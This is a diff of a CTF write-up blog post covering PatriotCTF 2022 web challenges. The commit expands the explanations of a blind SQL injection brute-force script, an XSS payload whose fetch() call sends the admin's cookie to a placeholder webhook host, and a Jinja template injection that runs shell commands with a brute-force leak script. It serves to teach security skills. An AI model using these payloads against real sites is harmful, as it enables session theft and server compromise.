

Before and after one commit to x-c-3/x-c-3.github.io, a Jekyll site: the page built from all_collections/_posts/2022-05-01-patriotctf-2022.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1049 px. Shown: the whole window at 90% size, without its empty margins (35-1087 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
added clarity

````diff
--- a/all_collections/_posts/2022-05-01-patriotctf-2022.markdown
+++ b/all_collections/_posts/2022-05-01-patriotctf-2022.markdown
@@ -37,7 +37,7 @@ def detect_sqli(username, password):
         return (False, )
 ```
 
-The challenge this time, in contrast to before, is that you have to brute-force the admin's password, as opposed to just logging in as the admin. The filters are easily bypassed: you can simply capitalise "or" and "and" and you can just concatenate "adm" and "in" to get "admin". We can build up the password by brute-forcing each character in turn by using some special SQL syntax. The request looks like this:
+The challenge this time, in contrast to before, is that you have to brute-force the admin's password as opposed to just logging in as the admin. The filters are easily bypassed: you can simply capitalise "or" and "and" and you can just concatenate "adm" and "in" to get "admin". We can build up the password by brute-forcing each character in turn by using some special SQL syntax. The request looks like this:
 
 ```
 Username: adm'||'in
@@ -54,7 +54,7 @@ SELECT * FROM Users WHERE username = '{inp_username}' AND password = '{inp_passw
 SELECT * FROM Users WHERE username = 'adm'||'in' AND password = '' OR SUBSTR(`passwOrd`, {pos}, 1) = '{c}';
 ```
 
-...leading to us being able to login if and only if `c` matches with the character in the password at index `pos`. Here's the script.
+The logic behind this is that the `WHERE` clause will only evaluate to true when the username is `'adm'||'in'` and the password is either empty (verifiably untrue) or has the character at index `pos` matching our brute-forced character `c`. This leads to us being able to login if and only if `c` matches with the character in the admin's password at index `pos`. We'll be able to tell if we've logged in successfully, as the error message won't appear in the HTML response, so we can automate this using a script. Here's the one I wrote.
 
 ```py
 import requests
@@ -87,7 +87,7 @@ while True:
     print(c, end="")
 ```
 
-After you get the password, submit another request but replace the brute-forcing password query with your output to get the flag.
+Log in to the admin account with this password you've just found, and this reveals the flag.
 
 ---
 
@@ -99,7 +99,12 @@ After you get the password, submit another request but replace the brute-forcing
 
 From the challenge description and due to the fact that you can send messages to the mysterious entity `admin`, this seems like an XSS challenge, so let's try to steal the admin's cookies.
 
-There is a filter on all messages that blocks these characters: `.>{}`, and a payload that works is `<img src=x onerror="javascript:ghurwiejiowrobw" `, as due to the trailing space, any subsequent HTML is then treated either as part of a new attribute or as the closing part of the tag. Submitting this payload with some javascript to exfiltrate the admin's cookie then logging in as the admin yields the flag.
+There is a filter on all messages that blocks these characters: `.>{}`, so using a `<script>` tag won't work as you can never end the opening tag to start writing your JavaScript code. However, `<img>` tags can have JavaScript code be executed via use of event handler attributes such as `onerror`, and a payload that works is `<img src=x onerror="javascript:your_payload_here" `, as due to the trailing space, any subsequent HTML is then treated either as part of a new attribute or as the closing part of the tag (if it's `>`). Submitting this payload with some javascript to exfiltrate the admin's cookie then logging in as the admin yields the flag.
+
+```html
+<!-- The src=x raises an error (404 not found) to trigger the onerror event handler. -->
+<img src=x onerror="fetch('https://webhook_link/' + document.cookie);"
+```
 
 ---
 
@@ -143,7 +148,7 @@ cycler.__init__.__globals__.os.popen('id').read()
 
 ...which achieves the same result, less effectively.
 
-There is a small issue, which is that using Jinja tags, we can't actually directly get the output of our executed commands. However, there is a workaround. We can use `{% if %}` to determine if a certain character exists at a certain index in the output of a command, and to output something to the page if so, similar to the SQL brute-force from before. During the competition I thought that this was far too slow to be the intended solution, but it [wasn't](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/tree/main/Web/Mr%20O), and here's the incredibly hackish script.
+There is a small issue, which is that using Jinja tags, we can't actually directly get the output of our executed commands. However, there is a workaround. We can use `{% if %}` to determine if a certain character exists at a certain index in the output of a command, and to output something to the page if so, similar to the SQL brute-force from before. We can test if anything was indeed output to the page by inspecting the HTML response to leak the results of our comparison. During the competition I thought that this was far too slow to be the intended solution, but it [wasn't](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/tree/main/Web/Mr%20O), and here's the incredibly hackish script I wrote.
 
 ```py
 import requests
@@ -169,12 +174,12 @@ while True:
     }
     r = s.post(url, cookies=cook, data=data).text
 
-    if r.split("Just sent your message: ")[1][0] != "<": # if "works" is output
-        i += 1
-        print(str(bytes.fromhex(c[2:]))[2:-1], end = "")
-        c_i = 0
+    if r.split("Just sent your message: ")[1][0].startswith("works"): # if "works" is output, ie the character we guessed, c, does indeed exist in the output at index i
+        i += 1 # ...so move onto the next index
+        print(str(bytes.fromhex(c[2:]))[2:-1], end = "") # ...add it on to our known output
+        c_i = 0 # ...and reset back to the first character to brute force once again
     else:
-        c_i += 1
+        c_i += 1 # otherwise, it didn't work, so test the next character
 ```
 
 ---
````
